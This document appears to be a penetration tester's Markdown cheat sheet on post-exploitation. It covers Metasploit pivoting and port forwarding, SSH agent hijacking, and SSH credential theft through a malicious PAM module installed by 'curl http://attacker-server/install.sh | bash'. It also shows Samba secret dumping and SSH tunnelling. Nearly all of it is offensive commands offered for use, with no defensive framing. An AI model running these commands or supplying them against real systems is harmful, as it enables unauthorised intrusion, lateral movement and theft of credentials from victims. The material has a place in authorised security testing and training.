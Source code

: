 # Meterpreter
#### Route
* * `meterpreter > run autoroute -s 10.2.31.0/24`
    </br> or </br>
* * `route add <10.10.10.0> <255.255.255.0> <session-ID>`
* background meterpreter
* `msf6 > use auxiliary/scanner/portscan/tcp`
* `use auxiliary/server/socks_proxy`
* configure it according with `cat /etc/proxychains.conf`
* `run/exploit` socks_proxy
* in linux host use `proxychains nmap -sT ...`
#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
* `meterpreter> portfwd list` - check port forwarding list
* in linux host, run `nmap <local_port>`
##### Notes
* when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
  * use `bind_tcp` payloads 

# Linux
* __SSH session hijacking__
    * requires **active** SSH session on the target
    * requires **root** 
    * `ps aux | grep sshd` - determine SSH process ID
    * `grep SSH_AUTH_SOCK /proc/<PID>/environ`
    * `SSH_AUTH_SOCK=/tmp/ssh-XXXX/agent.XXX ssh-add -l` - hijack target ssh-agent socket
    * `ssh remotesystem -l <victim>` - log into remote system as victim
* __SSH - stealing credentials__
    * malicious PAM module
    * https://github.com/mthbernardes/sshLooter
    * on attacking machine: edit _install.sh_ and _looter.py_ pointing _url_ variable to a server under attacket control to log POST requests
    * on compromised machine: `curl http://attacker-server/install.sh | bash`
* __Samba secrets__
    * `tdbdump /var/lib/samba/private/secrets.tdb`
    * https://medium.com/@br4nsh/from-linux-to-ad-10efb529fae9

# Local Techniques
#### Local Port forward
* `ssh -L <local port to listen on>:<remote machine>:<remote port> <username>@<ssh-server>`

## Cool resources
https://book.hacktricks.xyz/tunneling-and-port-forwarding

